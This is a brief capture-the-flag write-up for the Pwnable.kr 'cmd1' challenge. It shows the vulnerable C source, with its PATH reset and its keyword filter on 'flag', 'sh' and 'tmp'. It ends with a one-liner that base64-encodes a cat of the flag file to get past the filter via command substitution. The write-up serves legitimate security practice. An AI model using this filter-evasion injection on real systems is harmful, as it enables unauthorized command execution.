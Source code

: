 ```yaml
---
title: Pwnable.kr Cmd1
date: 2022-08-20T18:47:48+02:00
tags: ['cs/security']
aliases: ['']
---
```


This one is easy, we get the following code:

```c 
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

It clears the PATH environ so that we can't just run `cat` but we can simply
pass absolute paths and bypass that. It also applies some filters so that we
can't use *flag* *sh* or *tmp* in our payload. But we can just base64 encode our
payload and run base64 -d.


```
./cmd1 '$(printf "L2Jpbi9jYXQgL2hvbWUvY21kMS9mbGFn" | /usr/bin/base64 -d)'
```




